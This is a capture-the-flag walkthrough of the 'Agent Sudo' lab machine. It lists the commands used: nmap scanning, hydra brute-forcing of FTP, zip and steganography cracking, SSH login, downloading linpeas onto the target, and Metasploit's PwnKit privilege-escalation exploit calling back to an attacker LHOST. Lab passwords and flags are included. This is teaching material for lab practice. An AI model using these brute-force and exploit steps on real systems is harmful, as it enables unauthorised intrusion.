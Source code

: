 # Agent Sudo

--------------------------------------------------------------------

**TOOLS USED**: nmap, hydra, binwalk, john, steghide, linpeas, metasploit

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.207.89

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-script SCRIPT: script scan<br>
-sV: probe open ports to determine service/version info<br>
-oN OUTPUT_FILE: output results to given filename<br>
-p-: scan all ports
```
nmap --script vuln -sV -p- -oN nmap.txt 10.10.207.89
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
  21 (ftp vsftpd 3.0.3),<br>
  22 (ssh OpenSSH 7.6p1),<br>
  80 (http Apache httpd 2.4.29),<br>
  8797,<br>
  9649,<br>
  39873,<br>
  42206

### 2. Access Hidden Pages

![2.1](./imgs/2.1.png)

Use User-Agent Switcher plugin to change user agent to R<br>
https://addons.mozilla.org/en-US/firefox/addon/user-agent-string-switcher/

![2.2](./imgs/2.2.png)

![2.3](./imgs/2.3.png)

Try all other letters in alphabet

Codename: C

![2.4](./imgs/2.4.png)

**USERNAME**: chris

chris has weak password so we can try to brute force his ftp login

### 3. Brute Force FTP

```
hydra -l "chris" -P /usr/share/wordlists/rockyou.txt.gz ftp://10.10.207.89
```

![3.1](./imgs/3.1.png)

**PASSWORD**: crystal

```
ftp chris@10.10.207.89
less To_agentJ.txt
```

![3.2](./imgs/3.2.png)

```
get cute-alien.jpg
get cutie.png
```

### 4. Crack ZIP Hash

```
binwalk cute-alien.jpg
binwalk cutie.png
```

![4.1](./imgs/4.1.png)

file hidden in cutie.png

```
binwalk cutie.png -e
```

![4.2](./imgs/4.2.png)

Convert zip to hash and then crack
```
zip2john 8702.zip > hash
john hash
```
![4.3](./imgs/4.3.png)

**PASSWORD**: alien

Open To_agentR.txt in zip file

![4.4](./imgs/4.4.png)

Use Cyber Chef to auto detect encoding algorithm<br>
https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=UVhKbFlUVXg

![4.5](./imgs/4.5.png)

QXJlYTUx = Area51

### 5. Extract Stenography Data

```
steghide extract -sf cute-alien.jpg
```

![5.1](./imgs/5.1.png)

Agent J = James
**PASSWORD**: hackerrules!

```
ssh james@10.10.207.89
```

![5.2](./imgs/5.2.png)

**USER FLAG**: b03d975e8c92a7c04146cfa7a5a313c7

### 6. Privilege Escalation

Run linpeas
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
scp linpeas.sh james@10.10.207.89:~/linpeas.sh
chmod +x linpeas.sh
./linpeas
```

![6.1](./imgs/6.1.png)

**VULNERABLE**: CVE-2021-4034, CVE-2022-2588 (Potential)

Exploit vulnerability
```
msfconsole
auxiliary/scanner/ssh/ssh_login
set RHOSTS 10.10.207.89
set USERNAME james
set PASSWORD hackerrules!
exploit
search CVE-2021-4034
use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
set LHOST 10.6.40.234
set SESSION 1
exploit
```

![6.2](./imgs/6.2.png)

Agent R = DesKel

**ROOT FLAG**: b53a02f55b57d4439e3341834d70c062